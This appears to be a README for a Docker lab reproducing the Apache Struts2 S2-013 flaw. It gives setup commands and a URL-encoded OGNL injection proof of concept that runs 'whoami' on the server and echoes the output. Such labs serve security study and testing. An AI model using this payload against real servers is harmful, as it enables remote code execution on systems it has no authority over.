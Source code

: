 ### s2-013 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30080
```

```
poc:
%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('whoami').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-013/1.png)

